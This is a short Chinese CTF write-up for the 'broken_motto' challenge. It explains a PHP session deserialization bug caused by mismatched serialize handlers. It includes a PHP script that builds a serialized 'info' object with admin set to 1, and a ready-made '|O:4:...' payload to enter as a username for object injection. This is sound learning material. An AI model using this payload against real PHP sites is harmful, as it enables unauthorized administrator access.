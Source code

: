 ## broken_motto

[学习链接](https://www.mi1k7ea.com/2019/04/21/PHP-session反序列化漏洞/)

在profile.php里面里面有一行注释：

```
//ini_set('session.serialize_handler','php_serialize');
```

这行代码使用的Session序列化选择器是php_serialize，注释之后默认使用的是php

两种选择器的不同的处理方式导致了session反序列化的漏洞的产生，存session的时候，存入php_serialize经过serialize()函数序列处理的数组

读取的时候php以键名 ＋ 竖线 ＋ 经过 serialize() 函数序列化的数据处理如果你注册的时候加一个|，可以造成对象注入。

exp:
```PHP
<?php

class info{
    public $admin;
    public $username;
    public $motto;

}

$pop = new info();
$pop->admin = 1;
echo serialize($pop);
```
payload：

在注册的时候username输入：

```PHP
|O:4:"info":3:{s:5:"admin";i:1;s:8:"username";N;s:5:"motto";N;}
```

password和motto随便；